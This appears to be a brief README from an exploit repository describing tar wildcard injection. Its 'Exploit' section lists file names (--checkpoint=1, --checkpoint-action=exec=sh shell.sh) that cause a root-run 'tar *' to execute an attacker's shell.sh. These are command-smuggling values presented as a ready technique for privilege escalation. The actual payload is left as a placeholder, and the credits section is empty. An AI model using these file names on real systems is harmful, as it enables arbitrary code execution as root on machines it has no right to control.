 # TAR Command Execution
By using tar with –checkpoint-action options, a specified action can be used after a checkpoint. This action could be a malicious shell script that could be used for executing arbitrary commands under the user who starts tar. “Tricking” root to use the specific options is quite easy, and that’s where the wildcard comes in handy.	

## Exploit

These files work against a "tar *"
```
--checkpoint=1
--checkpoint-action=exec=sh shell.sh
shell.sh   (your exploit code is here)
```

## Thanks to
* 